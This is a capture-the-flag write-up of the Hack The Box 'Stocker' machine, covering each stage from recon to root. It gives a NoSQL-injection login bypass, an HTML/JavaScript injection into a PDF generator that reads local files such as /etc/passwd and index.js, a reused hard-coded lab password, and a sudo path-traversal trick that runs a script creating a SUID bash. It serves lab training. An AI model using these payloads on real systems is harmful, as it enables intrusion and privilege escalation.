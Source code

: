 # [Stocker](https://app.hackthebox.com/machines/stocker)

```bash
nmap -p- --min-rate 5000 10.10.11.196 -Pn  
```

![Alt text](img/image.png)


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.196  
```

![Alt text](img/image-1.png)


From nmap scan, we also see this ip address is resolved into `stocker.htb`, let's add this into `/etc/hosts` file.

Our web application is like that.

![Alt text](img/image-2.png)


Let's do subdomain enumeration via `ffuf` command.
```bash
ffuf -u http://10.10.11.196 -H "Host: FUZZ.stocker.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![Alt text](img/image-3.png)

Let's add `dev.stocker.htb` into `/etc/hosts` file also.

We have application and login page confronts us.

![Alt text](img/image-4.png)

Let's look at requests via `zap` try to add injections.

That's results of `wapanalyzer`.

![Alt text](img/image-5.png)


Request&Response body is like that.

![Alt text](img/image-6.png)


From my enumeration, it is `MERN` application, that's why we can inject `JSON` data and it will be `NoSQLI` payloads.

To do this,

1.First, we need to change `Content-Type` header into `application/json`.

2.Then, enter data as `JSON` standard.

![Alt text](img/image-7.png)


Now, it's time to add `NoSQLI` payloads as below which means `not equal` to this value.
```json
{"username":{"$ne": "dr4ks"}, "password": {"$ne":"dr4ks"}}
```

Now, we are successfully bypass authentication.

![Alt text](img/image-8.png)


We have such an application after authentication.

![Alt text](img/image-9.png)


There's feature that after buying some item, there's PDF file generated which actually information of item about your payment.

![Alt text](img/image-10.png)


I looked at all requests while this processis happening and find interesting `/api/order` endpoint.

Let's inject some data into here.

I just delete some value of keys in `json` structure and see that where application is running.

![Alt text](img/image-11.png)


Let's inject some payloads to write into `.pdf` file. For below payload, I add `\`(backslash) due to escaping `"` characters.

```bash
<img src=\"x\" onerror=\"document.write('test')\" />
```

![Alt text](img/image-12.png)


It gives me orderId, while browsing this id, I see that `test` word is written into `.pdf` file.

![Alt text](img/image-13.png)


Now, let's add payload to read `index.js` file of application.
```html
<img src=\"x\" onerror=\"document.write('<iframe src=file:///var/www/dev/index.js width=100% height=100%></iframe>')\" />
```

![Alt text](img/image-14.png)


I read content of this file by browsing this `orderID`.

![Alt text](img/image-15.png)


From here, I see `hard-coded` credentials.

dev:IHeardPassphrasesArePrettySecure


I also read file `/etc/passwd` to get usernames of machine, that's why it will be password of `angoose` user.

![Alt text](img/image-16.png)


angoose: IHeardPassphrasesArePrettySecure


Let's connect into machine via `ssh`.


user.txt

![Alt text](img/image-17.png)


For privilege escalation, I just check `sudo -l` command's result.

![Alt text](img/image-18.png)

It means, I can run `.js` file via `root` permission, for that I will write malicious `.js` file which copies `/bin/bash` and gives `SUID` permission.

```js
require('child_process').exec('cp /bin/bash /tmp/dr4ks; chown root:root /tmp/dr4ks; chmod 4777 /tmp/dr4ks')
```

![Alt text](img/image-19.png)

Let's execute this malicious script.
```bash
sudo node /usr/local/scripts/../../../tmp/dr4ks.js 
```

After execution, let's check `SUID` privilege is enabled or not via `ls -al /tmp/dr4ks`.

![Alt text](img/image-20.png)

We can run this copied `bash` file via `-p` option.


root.txt

![Alt text](img/image-21.png)